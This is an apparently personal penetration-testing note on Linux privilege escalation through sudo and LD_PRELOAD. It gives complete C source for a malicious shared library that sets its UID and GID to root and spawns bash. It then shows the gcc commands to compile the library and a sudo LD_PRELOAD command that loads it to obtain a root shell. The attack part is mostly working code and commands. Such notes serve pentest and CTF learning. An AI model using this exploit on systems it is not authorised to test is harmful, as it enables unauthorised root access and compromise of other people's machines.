 -- -
In essence, this vector will allow the user to preload libraries when running sudo, so while running something we are allowed to sudo with, we can feed it a malicious library file that will grant us a shell. 
### Enum
![[Dark Arts/Privesc/Enumeration/Sudo#^767678|Sudo]]
![[Dark Arts/Privesc/Enumeration/Sudo#^866a8f|Sudo]]
#### Write malicious library
Example below saved as: `shell.c`
This should be loaded before the software we are running, and it will run with root permissions. It will set it's UID and GID ID to 0 (root) and then execute bash, giving you a shell:
```c
#include <stdio.h
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");	
}
```
#### Compile code
```bash
# in this example, the above code was saved as shell.c
gcc -fPIC -shared -o <output file>.so <c code>.c -nostartfiles
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
#### Exploit
```bash
# again, our library file in this example is written to shell.so
# note you need to run something that is allowed from sudo -l, what software you choose is irrelevant as the library will be loaded first and it should open a shell.
sudo LD_PRELOAD=<absolute path>.so <sudo software>
sudo LD_PRELOAD=/home/user/shell.so apache2
```